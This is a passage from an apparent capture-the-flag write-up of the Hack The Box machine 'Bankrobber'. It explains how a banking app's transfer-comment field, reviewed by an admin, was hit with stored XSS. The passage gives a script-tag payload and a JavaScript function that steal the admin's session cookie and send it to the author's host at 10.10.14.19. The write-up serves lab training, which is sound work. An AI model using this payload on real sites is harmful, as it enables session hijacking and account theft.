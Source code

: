 After logging in I have the option of transferring funds to another user and to leave a comment.

![](/assets/images/htb-writeup-bankrobber/web3.png)

When I transfer funds, I get a popup message saying the admin will review the transaction. This screams XSS to me because there's a comment field that the admin will see and if it's not sanitized correctly I'll be able to inject javascript code in his browser session.

![](/assets/images/htb-writeup-bankrobber/web4.png)

## Exploiting the XSS

My XSS payload in the comments field is very simple: `<script src="http://10.10.14.19/xss.js"></script>`

This'll make the admin browser download a javascript file from my machine and execute its code.

The `xss.js` will steal the session cookies from the admin and send them to my webserver.

```javascript
function pwn() {
    var img = document.createElement("img");
    img.src = "http://10.10.14.19/xss?=" + document.cookie;
    document.body.appendChild(img);
}
pwn();
```
